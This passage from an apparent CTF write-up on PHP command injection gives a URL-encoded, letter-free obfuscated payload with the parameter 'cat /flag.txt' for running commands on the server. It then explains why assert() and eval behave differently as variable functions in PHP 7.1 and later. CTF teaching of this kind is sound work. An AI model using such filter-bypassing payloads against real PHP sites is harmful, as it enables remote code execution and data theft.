 > ```
> ctf_show=
> %24_%3D%3C%3C%3C_%0AC%0A_%3B%0A%24__%3D%3C%3C%3CC%0A_%0AC%3B%0A%0A%24_%2B%2B%3B%24_%2B%2B%3B%0A%24_%2B%2B%3B%24_%2B%2B%3B%0A%24_%2B%2B%3B%24_%2B%2B%3B%24_%2B%2B%3B%24_%2B%2B%3B%24_%2B%2B%3B%24_%2B%2B%3B%24_%2B%2B%3B%24_%2B%2B%3B%24_%2B%2B%3B%24_%2B%2B%3B%24_%2B%2B%3B%24_%2B%2B%3B%24_%2B%2B%3B%24_%2B%2B%3B%24_%2B%2B%3B%24_%2B%2B%3B%24_%2B%2B%3B%24_%2B%2B%3B%24_%2B%2B%3B%24_%2B%2B%3B%24___%3D%24_%5B1%5D%3B%20%0A%0A%24_0%3D%24___%3B%20%0A%24___%2B%2B%3B%24_1%3D%24___%3B%20%0A%24___%2B%2B%3B%24_2%3D%24___%3B%20%0A%24___%2B%2B%3B%24_3%3D%24___%3B%20%0A%24___%2B%2B%3B%24__1%3D%24___%3B%20%0A%24___%2B%2B%3B%24__2%3D%24___%3B%20%0A%24___%2B%2B%3B%24__3%3D%24___%3B%20%0A%24___%2B%2B%3B%24___1%3D%24___%3B%20%0A%24___%2B%2B%3B%24___2%3D%24___%3B%20%0A%24___%2B%2B%3B%24___3%3D%24___%3B%20%0A%24___%2B%2B%3B%24____1%3D%24___%3B%20%0A%24___%2B%2B%3B%24____2%3D%24___%3B%20%0A%24___%2B%2B%3B%24____3%3D%24___%3B%20%0A%24___%2B%2B%3B%24_____1%3D%24___%3B%20%0A%24___%2B%2B%3B%24_____2%3D%24___%3B%20%0A%24___%2B%2B%3B%24_____3%3D%24___%3B%20%0A%24___%2B%2B%3B%24______1%3D%24___%3B%20%0A%24___%2B%2B%3B%24______2%3D%24___%3B%20%0A%24___%2B%2B%3B%24______3%3D%24___%3B%20%0A%24___%2B%2B%3B%24_______1%3D%24___%3B%20%0A%24___%2B%2B%3B%24_______2%3D%24___%3B%20%0A%24___%2B%2B%3B%24_______3%3D%24___%3B%20%0A%24___%2B%2B%3B%24________1%3D%24___%3B%20%0A%24___%2B%2B%3B%24________2%3D%24___%3B%0A%24___%2B%2B%3B%24________3%3D%24___%3B%0A%24___%2B%2B%3B%24_________1%3D%24___%3B%0A%0A%24_01%3D%24_____3.%24_0.%24______3.%24______3.%24_______1.%24___1.%24______2.%24_______2%3B%0A%24_02%3D%24__.%24_____3.%24_____2.%24______3.%24_______1%3B%0A%24__%3D%24%24_02%3B%0A%24_01(%24__%5B_%5D)%3B
> &_=cat /flag.txt
> ```
>
> #### 一点小补充：
>
> 在写payload的时候，本来是打算使用assert或者eval的
>
> > assert把整个字符串参数当php代码执行，eval把合法的php代码执行
>
> 在PHP7.1版本以后， assert()默认不再可以执行代码
> (assert在更新后无法将使用字符串作为参数，而GET或POST传入的数据默认就是字符串类型）
>
> 我们都知道eval相当于将字符串拼接到原来的代码中，正常来说把assert换成eval就可以了
>
> 但这里会报错Call to undefined function EVAL()
>
> 经过查询知道：
>
> > eval是语言构造器而不是一个函数，不能被可变函数调用
> >
> > 可变函数即变量名加括号，PHP系统会尝试解析成函数，如果有当前变量中的值为命名的函数，就会调用。如果没有就报错。
> > ·
> > 可变函数不能用于例如 echo，print，unset()，isset()，empty()，include，require eval() 以及类似的语言结构。需要使用自己的包装函数来将这些结构用作可变函数
>
> 参考：
> [动态调用函数时的命令执行对于eval()和assert()的执行问题_Alexhirchi的博客-CSDN博客](https://blog.csdn.net/weixin_43669045/article/details/107093451)





#### 无参数函数rce
